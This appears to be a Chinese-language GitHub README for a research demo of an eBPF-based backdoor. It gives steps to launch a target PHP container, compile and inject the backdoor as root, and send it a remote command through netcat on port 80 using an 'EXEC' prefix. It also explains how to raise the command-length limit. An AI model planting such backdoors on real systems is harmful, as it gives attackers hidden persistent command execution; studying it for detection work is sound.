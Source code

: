 # ebpf backdoor demo

eBPF backdoor demo, 详细介绍可以看 https://rmb122.com/2024/11/01/%E5%88%A9%E7%94%A8-eBPF-%E6%8A%80%E6%9C%AF%E9%9A%90%E8%97%8F%E5%90%8E%E9%97%A8%E7%A8%8B%E5%BA%8F/

## 测试运行

需要比较新的内核, 在 6.11.9 上能够正常工作. 另外还需要相关工具链, 例如 llvm 等, 不再赘述.

1. 运行被攻击的容器
```shell
cd php_docker/
docker-compose up -d
```

2. 编译 & 注入后门 (如果不是 root 记得带上 sudo)
```shell
./run_rop
```

3. 发送命令
```shell
echo -e 'EXECecho 1 >/tmp/pwned\x00' | nc ${容器 IP} 80
```

此时容器的 /tmp 底下应该会生成 pwned 文件. 需要注意命令的最大长度只有 27, 太长的命令无法正常运行.  
要改长的话可以修改 backdoor_rop.c 文件的 `char buffer[32];` 到更长的值, 不过不一定能够编译.
